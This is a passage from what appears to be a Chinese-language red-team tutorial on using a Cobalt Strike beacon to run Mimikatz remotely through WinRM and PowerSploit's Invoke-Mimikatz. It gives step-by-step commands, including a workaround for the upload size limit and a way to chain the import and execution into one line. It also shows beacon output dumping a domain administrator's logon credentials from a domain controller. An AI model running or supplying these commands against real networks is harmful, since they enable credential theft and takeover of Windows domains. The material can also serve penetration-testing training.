 注：如果命令运行失败可能是因为 WinRM 配置原因，可在 powershell 环境下运行 `winrm quickconfig`命令，输入 `y` 回车即可。

命令运行后的结果，WinRM 也将通过命令行进行显示，因此可以使用 Powershell 的 Invoke 命令来作为远程工具，而不使用其他的恶意软件来控制系统。

**通过 WinRM 运行 Mimikatz**

更进一步，甚至可以使用 PowerSploit 来通过 WinRM 运行 Mimikatz，只需要先导入 Invoke-Mimikatz.ps1 文件，再执行以下命令即可。

```powershell
powershell-import /path/to/Invoke-Mimikatz.ps1
powershell Invoke-Mimikatz -ComputerName TARGET
```

> 注：之前提了很多次的 PowerView 也是 PowerSploit 项目里众多 ps1 文件之一，Mimikatz 的 ps1 文件在 PowerSploit 项目的 Exfiltration 目录下，PowerSploit 项目下载地址：[https://github.com/PowerShellMafia/PowerSploit/](https://github.com/PowerShellMafia/PowerSploit/)

因为 beacon 上传文件大小限制在1MB，而 Invoke-Mimikatz.ps1 文件大小在 2 MB 多，因此直接运行 `powershell-import` 导入该文件会报错，这里可以选择使用 beacon 中的 upload 命令或者在当前会话的 File Browser 图形界面中上传该文件。

```powershell
upload C:\path\Invoke-Mimikatz.ps1
```

上传之后通过 dir 命令可以查看到文件被上传到了C盘下，之后可以运行以下命令来导入该文件。

```powershell
powershell import-module C:\Invoke-Mimikatz.ps1
```

最后再运行以下命令就能通过 WinRM 执行 Mimikatz 了。

```powershell
powershell Invoke-Mimikatz -ComputerName TARGET
```

如果提示`无法将“Invoke-Mimikatz”项识别为 cmdlet、函数……`，则可以将两条命令以分号合并在一起运行，即：

```
powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName TARGET
```

```powershell
beacon> powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName WinDC
[*] Tasked beacon to run: import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName WinDC
[+] host called home, sent: 287 bytes
[+] received output:

  .#####.   mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 314628 (00000000:0004cd04)
Session           : Interactive from 1
User Name         : administrator
Domain            : TEAMSSIX
Logon Server      : WinDC
Logon Time        : 2020/8/20 23:53:08
SID               : S-1-5-22-3301978333-983314215-684642015-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
……内容过多，余下部分省略……
```

